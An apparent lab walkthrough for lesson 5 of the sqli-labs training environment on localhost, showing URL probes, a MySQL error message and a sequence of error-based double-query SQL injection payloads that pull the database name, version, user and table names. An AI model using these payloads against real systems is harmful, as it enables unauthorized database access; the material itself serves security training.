#### 5. Lesson 5 - ``Double injection - Single Quote - String``

```
http://localhost/sqli-labs/Less-5/
http://localhost/sqli-labs/Less-5/?id=1
http://localhost/sqli-labs/Less-5/?id=2
http://localhost/sqli-labs/Less-5/?id=3
```




```
http://localhost/sqli-labs/Less-5/?id=1'
```


```
http://localhost/sqli-labs/Less-5/?id=1\
```



```
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1\' LIMIT 0,1' at line 1
```

```
''1\' LIMIT 0,1' at line 1
'   '1\' LIMIT 0,1   '
'1\' LIMIT 0,1
1\
```

```mysql
select col-1, col-2, col-3 from table where id = '   3'OR '1   '
```

```
http://localhost/sqli-labs/Less-5/?id=3'OR '1
http://localhost/sqli-labs/Less-5/?id=3'--+
```


```mysql
select database();
select(select database());
select concat((select database()));
select concat(0x3a, 0x3a, (select database()), 0x3a, 0x3a);
select concat(0x3a, 0x3a, (select database()), 0x3a, 0x3a)a;
select concat(0x3a, 0x3a, (select database()), 0x3a, 0x3a, floor(rand()*2))a;
select concat(0x3a, 0x3a, (select database()), 0x3a, 0x3a, floor(rand()*2))a from information_schema.columns;
select concat(0x3a, 0x3a, (select database()), 0x3a, 0x3a, floor(rand()*2))a from information_schema.tables;
select count(*), concat(0x3a, 0x3a, (select database()), 0x3a, 0x3a, floor(rand()*2))a from information_schema.tables group by a;
select count(*), concat(0x3a, 0x3a, (select database()), 0x3a, 0x3a, floor(rand()*2))a from information_schema.columns group by a;
select count(*), concat(0x3a, 0x3a, (select version()), 0x3a, 0x3a, floor(rand()*2))a from information_schema.columns group by a;
select count(*), concat(0x3a, 0x3a, (select user()), 0x3a, 0x3a, floor(rand()*2))a from information_schema.columns group by a;
select count(*), concat(0x3a, 0x3a, (select table_name from information_schema.tables where table_schema=database() limit 1,0), 0x3a, 0x3a, floor(rand()*2))a from information_schema.columns group by a;
select count(*), concat(0x3a, 0x3a, (select table_name from information_schema.tables where table_schema=database() limit 1,1), 0x3a, 0x3a, floor(rand()*2))a from information_schema.columns group by a;
select count(*), concat(0x3a, 0x3a, (select table_name from information_schema.tables where table_schema=database() limit 2,1), 0x3a, 0x3a, floor(rand()*2))a from information_schema.columns group by a;
select count(*), concat(0x3a, 0x3a, (select table_name from information_schema.tables where table_schema=database() limit 3,1), 0x3a, 0x3a, floor(rand()*2))a from information_schema.columns group by a;
select count(*), concat(0x3a, 0x3a, (select table_name from information_schema.tables where table_schema=database() limit 4,1), 0x3a, 0x3a, floor(rand()*2))a from information_schema.columns group by a;
```

































